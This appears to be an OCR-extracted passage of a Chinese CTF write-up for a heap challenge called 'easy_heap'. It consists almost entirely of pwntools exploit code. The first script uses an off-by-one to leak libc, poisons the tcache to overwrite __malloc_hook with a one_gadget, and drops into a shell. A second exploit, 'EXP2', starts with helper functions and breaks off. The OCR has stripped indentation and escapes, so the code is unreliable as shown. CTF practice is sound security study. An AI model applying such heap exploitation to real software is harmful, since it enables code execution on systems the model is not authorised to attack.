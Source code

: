 ```
new(0xf8,'x00') #idx.8:1.off-by-one the preinuse bit of chunk3 2.hijack the lowest byte of leak_target_chunk correctly to FD
#fill tcache but don't touch idx.7 , 8 , 5 (six enough considering chunk0 remained in tcache)
for i in range(5):
delet(i)
delet(6)
#merge &amp; leak
delet(5)
echo(8)
unsorted_bin = u64(r.recv(6).ljust(8,'x00'))
libc_base = unsorted_bin - 0x3dac78
print(hex(libc_base))
malloc_hook = libc_base + 0x3dac10
onegadget = libc_base + 0xfdb8e #0x47ca1 #0x7838e #0x47c9a #0xfccde

#hijack
#clean tcache
for i in range(7):
newz()
newz() #idx.9
#now we hold idx.8&amp;9 pointing chunk2
delet(0) #passby counts check
delet(8)
delet(9)
new(0x10,p64(malloc_hook))
newz()
new(0x10,p64(onegadget))

#fire
#according to the logic that size is inputed after malloc
delet(1) #passby idxtable full check
#x = input("fucking")
r.recvuntil("?n&gt; ")
r.sendline("1")
r.interactive()
```

-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·-·

EXP2：利用隔块合并攻击

```
from pwn import *
#ARCH SETTING
context(arch = 'amd64' , os = 'linux')
r = process('./easy_heap')
#r = remote('127.0.0.1',9999)
```



```
#FUNCTION DEFINE
def new(size,content):
r.recvuntil("?n&gt; ")
r.sendline("1")
r.recvuntil("size n&gt; ")
r.sendline(str(size))
r.recvuntil("content n&gt; ")
r.send(content)

def newz():
r.recvuntil("?n&gt; ")
r.sendline("1")
r.recvuntil("size n&gt; ")
r.sendline(str(0))
```